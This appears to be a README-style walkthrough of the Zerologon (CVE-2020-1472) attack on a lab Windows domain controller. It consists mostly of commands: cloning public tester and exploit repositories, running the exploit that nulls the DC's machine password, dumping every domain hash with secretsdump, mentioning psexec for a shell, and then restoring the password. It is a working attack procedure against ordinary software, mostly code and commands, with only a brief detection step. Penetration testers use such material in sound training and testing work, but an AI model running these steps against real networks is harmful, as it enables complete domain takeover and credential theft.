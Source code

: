 - - -
### What is this? 
Acctually this is a very serius vulnerabilty or we can say bug which we can perform to get domain Controller on the Target Domain.  In this attack the exploit sets the DC's password to NULL so that we can authenticate. And Then we have to restore it otherwise the  Domain will be 
Destroyed.  
- - -
> [! Note ]
>  Before running these tools we should have latest version of impackets.
<br>

## Detection : 

```sh
git clone https://github.com/SecuraBV/CVE-2020-1472.git ; cd CVE-2020-1472/ ; pip install -r requirements.txt ; chmod 755 * ; 
```

```python
python3 zerologon_tester.py HYDRA-DC 10.10.10.1 
```

![Imgur](https://i.imgur.com/NR2e5bJ.png)
<br>

- - -
## Attacking Steps : 

```sh
git clone https://github.com/dirkjanm/CVE-2020-1472.git ; cd CVE-2020-1472/ ; chmod 755 * ;
```

```python
 python3 cve-2020-1472-exploit.py HYDRA-DC 10.10.10.1 
```

![Imgur](https://i.imgur.com/kUi9dhH.png)

```python
 secretsdump.py -just-dc MARVEL/HYDRA-DC\$@10.10.10.1 
```

![Imgur](https://i.imgur.com/6FkK9zb.png)

 **Now we can do anything we want , we can get a shell with psexec or anything....**
<br>

- - -
## Restoration : 
Restoring the domain controller otherwise the whole domain will be finished ! ! 

**Copy the administrator's hash** and then ; 

```python
secretsdump.py administrator@10.10.10.1 -hashes <administrator-hash>  
```

Copy the  plain-password-hex of DC. 

![Imgur](https://i.imgur.com/LNPhQw8.png)

```python
python3 ./restorepassword.py MARVEL/HYDRA-DC@HYDRA-DC -target-ip 10.10.10.1 -hexpass <plain-password-hex> 
```

![Imgur](https://i.imgur.com/UdTXpZd.png)
<br>

- - -




